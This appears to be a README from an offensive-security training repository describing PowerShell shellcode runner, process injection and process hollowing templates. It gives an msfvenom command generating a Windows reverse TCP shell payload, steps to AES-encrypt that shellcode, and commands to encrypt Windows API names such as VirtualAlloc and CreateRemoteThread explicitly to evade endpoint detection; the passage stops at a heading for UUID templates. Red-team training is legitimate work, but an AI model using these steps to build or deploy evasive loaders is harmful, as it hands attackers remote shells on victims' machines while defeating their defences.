 This directory contains Shellcode execution techniques in PowerShell. 

# How to use AES shellcode templates
## 1. Generate Shellcode 
```bash
# Generate shellcode and copy just the shellcode output (0x01, 0x02 etc..)
msfvenom -p windows/x64/shell/reverse_tcp LHOST=127.0.0.1 LPORT=8080 -f powershell
```

## 2. Encrypt shellcode with Invoke-EncyptAES.ps1 
Use the PowerShell script below to encrypt the shellcode
Invoke-EncryptAES.ps1: https://github.com/The-Viper-One/OSEP-Notes/blob/main/Helpers/Invoke-EncryptAES.ps1
```powershell
Invoke-EncryptAES -bytes "0x02, 0x03, 0x00"
```
## 3. Place the generated payload into any of the templates
Place the Warhead (payload) generated by Invoke-EncryptAES into any of the PowerShell template scripts.
![image](https://github.com/user-attachments/assets/4e5d63b0-6b2b-4d2e-969b-15e92811b49c)

## 4. Generate new keyword bytes for the template (Optional)

Optionally, we can generate new encryption keys and bytes to obfuscate keywords which may be detected by endpoint detection systems. For example, keywords such as VirtualAlloc and VirtualProtect may raise the overall detection signature of the script. This has already been done in the templates, but would be good practice to generate new keys and bytes everytime.

![image](https://github.com/user-attachments/assets/fb827ae8-a011-4248-bb5b-b8de6d15c775)


Additionally is it advised to remove comments from the templates before execution.

### Shellcode Runner templates
Applies to:
- AES_Shellcode_Runner_Delegate.ps1
```powershell
# Multiple Keys
Invoke-EncryptAES -MultipleKeys -InputStrings "WaitForSingleObject, VirtualAlloc, CreateThread, VirtualProtect, system.dll, GetProcAddress, GetModuleHandle, Microsoft.Win32.UnsafeNativeMethods, Kernel32.dll, ReflectedDelegate, InMemoryModule"

# Single Key
Invoke-EncryptAES -InputStrings "WaitForSingleObject, VirtualAlloc, CreateThread, VirtualProtect, system.dll, GetProcAddress, GetModuleHandle, Microsoft.Win32.UnsafeNativeMethods, Kernel32.dll, ReflectedDelegate, InMemoryModule"
```

### Process Injection Alternative
Applies to:
- AES_Process_Injection_Delegate_Alternate.ps1
- UUID_Process_Injection_Delegate_Alternate.ps1
```powershell
# Multiple Keys
Invoke-EncryptAES -MultipleKeys -InputStrings "system.dll, GetProcAddress, GetModuleHandle, Microsoft.Win32.UnsafeNativeMethods, Kernel32.dll, ReflectedDelegate, InMemoryModule, ntdll.dll, OpenProcess, CreateRemoteThread, NtClose, NtCreateSection, NtMapViewOfSection, NtUnmapViewOfSection"

# Single Key
Invoke-EncryptAES -InputStrings "system.dll, GetProcAddress, GetModuleHandle, Microsoft.Win32.UnsafeNativeMethods, Kernel32.dll, ReflectedDelegate, InMemoryModule, ntdll.dll, OpenProcess, CreateRemoteThread, NtClose, NtCreateSection, NtMapViewOfSection, NtUnmapViewOfSection"
```
### Process Hollowing
Applies to:
- AES_Process_Hollowing_Delegate.ps1
- UUID_Process_Hollowing_Delegate.ps1
```powershell
# Multiple Keys
Invoke-EncryptAES -MultipleKeys -InputStrings "system.dll, GetProcAddress, GetModuleHandle, Microsoft.Win32.UnsafeNativeMethods, Kernel32.dll, ReflectedDelegate, InMemoryModule, ntdll.dll, ReadProcessMemory, WriteProcessMemory, ResumeThread, CloseHandle, ZwQueryInformationProcess"

# Single Key
Invoke-EncryptAES -InputStrings "system.dll, GetProcAddress, GetModuleHandle, Microsoft.Win32.UnsafeNativeMethods, Kernel32.dll, ReflectedDelegate, InMemoryModule, ntdll.dll, ReadProcessMemory, WriteProcessMemory, ResumeThread, CloseHandle, ZwQueryInformationProcess"
```

# How to use UUID shellcode templates
